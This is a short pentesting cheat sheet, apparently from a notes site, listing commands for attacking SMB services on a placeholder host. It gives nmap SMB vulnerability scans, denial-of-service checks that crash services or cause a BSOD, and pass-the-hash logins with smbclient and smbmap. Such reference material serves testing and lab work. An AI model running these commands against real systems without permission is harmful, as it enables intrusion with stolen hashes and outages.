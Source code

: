 ```yaml
---
layout: default
title: SMB
tags:
    - 139
    - 445
    - block
    - message
    - samba
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# SMB
### Nmap scripts
Safe vulnerability scan
```shell
nmap -p 445 -vv --script smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-regsvc-dos 10.10.10.10
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-cve2009-3103 10.10.10.10
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-ms10-054 10.10.10.10
```

### Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>
```

### Regular usage
Mount
```shell
mount -t cifs -o username=<username> //10.10.10.10/ /mnt/smb/
```

SMBMap
```shell
smbmap -H 10.10.10.10
```

```shell
smbmap -H 10.10.10.10 -u <username> 
```
- Sometimes adding anything to the `-u` field will return results